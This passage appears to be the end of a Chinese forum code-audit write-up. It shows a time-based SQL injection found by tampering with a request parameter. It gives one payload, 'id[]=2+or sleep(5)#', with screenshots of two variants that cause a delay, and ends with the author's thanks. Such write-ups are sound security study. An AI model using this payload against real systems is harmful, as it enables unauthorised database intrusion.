 然后右键改包 构造payload：id\[\]=2+or sleep(5)#

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-0fe1d7f9d4d6212026b295fce8c3f80b08825c8f.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-0fe1d7f9d4d6212026b295fce8c3f80b08825c8f.png)

还有一种

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-b241ddb99df08a8216cc98db97f110936e8941e0.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-b241ddb99df08a8216cc98db97f110936e8941e0.png)

都可以延时

### 最后

感谢师傅提供的源码 求师傅们建议 轻点喷 小白第三次审计